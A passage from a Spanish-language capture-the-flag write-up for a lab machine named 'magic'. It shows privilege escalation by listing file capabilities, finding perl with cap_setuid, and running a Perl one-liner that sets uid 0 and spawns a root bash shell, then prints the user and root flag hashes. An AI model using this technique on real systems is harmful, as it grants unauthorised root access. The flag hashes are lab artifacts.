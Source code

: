 ```
d14885ecd144685ad228d66e275d715e
```

## Escalate Privileges

Si listamos las `capabilities` que tenemos veremos lo siguiente:

```shell
getcap -r / 2>/dev/null
```

Info:

```
/usr/bin/perl5.36.0 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/perl cap_setuid=ep
```

Vemos que tendremos `perl` que no suele ser comun, por lo que podremos realizar lo siguiente para ser `root`.

```shell
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

Info:

```
root@magic:/tmp# whoami
root
```

Con esto veremos que seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
8e90ffd47b5164f275c42955a2531eef
```
